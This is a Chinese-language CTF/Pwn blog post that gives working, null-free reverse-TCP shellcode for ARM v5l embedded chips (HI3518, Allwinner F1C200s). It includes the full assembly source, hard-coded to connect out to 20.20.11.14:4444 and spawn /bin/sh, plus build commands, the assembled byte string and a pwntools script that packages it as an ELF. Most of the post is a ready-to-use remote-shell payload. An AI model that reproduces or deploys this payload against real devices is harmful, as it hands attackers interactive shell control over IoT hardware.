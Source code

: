 ```yaml
---
title: ARM v5l 稳定 shellcode：shell reverse tcp (Null free)
date: 2021-06-17 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 最近需要在一个采用了海思解决方案HI3518 CV100(ARM v5l)的设备上打一个反连并且没有空字节的shellcode，但是网上直接找shellcode大部分都是在ARM v7l上测试成功的，能够在v5l的指令集上兼容的shellcode并不多。并且设备上的busybox的启动sh时，execve的第二个参数也必须布置好，否则会启动失败。网上的大多shellcode第二个参都是直接0。最后拼接了两个前辈（[rtmcx](https://www.exploit-db.com/shellcodes/43921)、[Ken Kitahara](https://www.exploit-db.com/shellcodes/45290)）的shellcode，并在HI3518 CV100、 Allwinner F1C200s上测试通过。


在shellcode修改的过程中需要注意`adr`指令后所使用的地址需要4字节对齐，所以可以使用`eor  r7, r7, r7`这种填充指令进行了地址的对齐：

```C
// mix two shellcode
// https://www.exploit-db.com/shellcodes/45290
// https://www.exploit-db.com/shellcodes/43921

/*
* Title:  Linux/ARM - Reverse Shell TCP (execve("/bin/sh", ["/bin/sh"], NULL)). Null free shellcode (84 bytes)
* Date:   2021-06-16
* Tested: armv5l (HI3518 CV100, Allwinner F1C200s)
* Author: rtmcx - twitter: @rtmcx 
* Author: Ken Kitahara
*/

.section .text

.global _start

_start:
/* Enter Thumb mode */
	.ARM
	add	r3, pc, #1
	bx	r3

	.THUMB

/* Create a new socket*/
	mov 	r0, #2				// PF_INET = 2
	mov 	r1, #1				// SOCK_STREAM = 1
	eor 	r2, r2, r2			// Zero out r2
	mov 	r7, #100			// Put 281 in r7..
	add 	r7, #181			// ..in a 2-step operation
	svc 	#1					// syscall returns sockid in r0 

	mov 	r4, r0				// Save sockid in r4


/* Connect to client */
	adr 	r1, struct_addr		// Address to struct_addr
	strb	r2, [r1, #1]		// Replace AF_INET with NULL
	mov 	r2, #16				// Address length 
	add 	r7, #2				// r7 already contains 281, so add 2 = 283
	svc 	#1					// Client sockid will be returned in r0
	

/* Duplicate STDIN, STDOUT and STERR */
	mov 	r0, r4				// Saved sockid
	eor 	r1, r1, r1			// Zero r1 for STDIN
	mov 	r7, #63				// Syscall for dup2
	svc 	#1					// Execute syscall
	
	mov 	r0, r4				// Saved sockid
	add 	r1, #1				// STDOUT (1)
	svc 	#1					// Execute syscall

	mov 	r0, r4				// Saved sockid
	add 	r1, #1				// STDERR (2)
	svc 	#1					// Execute syscall

	
/* Execute shell */

    adr     r0, spawn
    eor     r2, r2, r2
    strb    r2, [r0, #7]
    push    {r0, r2}
    mov     r1, sp
    mov     r7, #11
    svc     #1

/*  adjust address */
    eor     r7, r7, r7

spawn:
    .ascii "/bin/shA"

struct_addr:
	.ascii "\x02\xaa"			// AF_INET 0xff will be NULLed 
	.ascii "\x11\x5c"			// port 4444
	.ascii "\x14\x14\x0b\x0d" 	// IP Address (20.20.11.14)

/*
Compile and link with: 
# arm-linux-gnueabi-as -o shellcode.o shellcode.s
# arm-linux-gnueabi-ld -N shellcode.o -o shellcode
# arm-linux-gnueabi-objcopy -O binary --only-section=.text shellcode execve.text
\x01\x30\x8F\xE2\x13\xFF\x2F\xE1\x02\x20\x01\x21\x52\x40\x64\x27\xB5\x37\x01\xDF\x04\x1C\x0D\xA1\x4A\x70\x10\x22\x02\x37\x01\xDF\x20\x1C\x49\x40\x3F\x27\x01\xDF\x20\x1C\x01\x31\x01\xDF\x20\x1C\x01\x31\x01\xDF\x03\xA0\x52\x40\xC2\x71\x05\xB4\x69\x46\x0B\x27\x01\xDF\x7F\x40\x2F\x62\x69\x6E\x2F\x73\x68\x41\x02\xAA\x11\x5C\x14\x14\x0B\x0D
*/
```

可以直接使用编译出来的ELF进行测试，也可以使用pwntools对shellcode进行封装：

```python
from pwn import *
context(arch='arm')

shellcode  = '\x01\x30\x8F\xE2\x13\xFF\x2F\xE1\x02\x20\x01\x21\x52\x40\x64\x27'
shellcode += '\xB5\x37\x01\xDF\x04\x1C\x0D\xA1\x4A\x70\x10\x22\x02\x37\x01\xDF'
shellcode += '\x20\x1C\x49\x40\x3F\x27\x01\xDF\x20\x1C\x01\x31\x01\xDF\x20\x1C'
shellcode += '\x01\x31\x01\xDF\x03\xA0\x52\x40\xC2\x71\x05\xB4\x69\x46\x0B\x27'
shellcode += '\x01\xDF\x7F\x40\x2F\x62\x69\x6E\x2F\x73\x68\x41\x02\xAA\x11\x5C'
shellcode += '\x14\x14\x0B\x0D'

a = make_elf(shellcode)
f = open('shellcode','wb')
f.write(a)
f.close()
```

测试的SoC信息如下：

![image](https://xuanxuanblingbling.github.io/assets/pic/arm/armv5l_shellcode_test.jpeg)

```
# cat /proc/cpuinfo
processor       : 0
model name      : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 203.16
Features        : swp half thumb fastmult edsp java 
CPU implementer : 0x41
CPU architecture: 5TEJ
CPU variant     : 0x0
CPU part        : 0x926
CPU revision    : 5

Hardware        : Allwinner suniv Family
Revision        : 0000
Serial          : 0000000000000000

# cat /proc/cpuinfo
Processor       : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 218.72
Features        : swp half fastmult edsp java 
CPU implementer : 0x41
CPU architecture: 5TEJ
CPU variant     : 0x0
CPU part        : 0x926
CPU revision    : 5

Hardware        : hi3518
Revision        : 0000
Serial          : 0000000000000000
```